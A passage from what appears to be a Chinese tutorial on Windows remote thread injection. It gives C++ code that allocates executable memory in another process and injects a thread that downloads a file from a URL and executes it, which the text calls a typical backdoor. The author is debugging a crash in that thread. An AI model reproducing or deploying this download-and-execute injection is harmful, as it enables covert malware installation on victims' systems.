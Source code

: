   这里可以在申请的时候设置：  
```c++
VirtualAllocEx(rProc,NULL,ProcSize,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
  也可以使用函数VirtualProtectEx进行属性更改：  
```c++
VirtualProtectEx(rProc,procAddr,ProcSize,PAGE_EXECUTE_READWRITE,&oldAddr);
```
  最后，按照上边的要求写出合理的代码，计算出正确的函数起始地址和大小，然后申请空间存放代码和参数，设置代码空间属性为可执行，使用CreateRemoteThread启动函数执行，但是还是会出现异常，下边是触发异常的代码。  
```c++
//线程参数结构
struct RemotePara
{
    TCHAR url[256];//下载地址
    TCHAR filePath[256];//保存文件路径
    DWORD downAddr;//下载函数的地址
    DWORD execAddr;//执行函数的地址
};
DWORD WINAPI ThreadProc(LPVOID lpara)
{
    RemotePara*para=(RemotePara*)lpara;
    typedef UINT (WINAPI*winExec)(LPTSTR cmdLine,UINT cmdShow);//定义WinExec函数原型
    typedef UINT (WINAPI*urlDownloadToFile)(LPUNKNOWN caller,LPTSTR url,LPTSTR fileName
        ,DWORD reserved,LPBINDSTATUSCALLBACK sts);//定义URLDownloadToFile函数原型

    urlDownloadToFile download;
    download=(urlDownloadToFile)para->downAddr;//获取download函数地址
    winExec exe;
    exe=(winExec)para->execAddr;//获取exe函数地址
    
    download(0,para->url,para->filePath,0,NULL);//下载文件
    exe(para->filePath,SW_SHOW);//执行下载的文件

    return 1;
}
```
  代码的含义很明确，参数中传递进来了事先已经计算好的API函数URLDownloadToFile和WinExec的地址以及需要的路径参数，线程函数执行时从指定地址下载exe文件并执行之，这是一个典型的后门启动。这里引出第七个问题，系统总是执行下载后触发异常，如果删除下载文件函数的调用，直接执行却能够成功，这也就说明该`线程函数只能完成一次API调用`。通过大量的分析可以确定这种异常是在函数调用后触发的，而且导致了栈的崩溃。这里依旧查看反汇编：  
  ![rtck](_v_images/20190409150021321_22661.jpg)  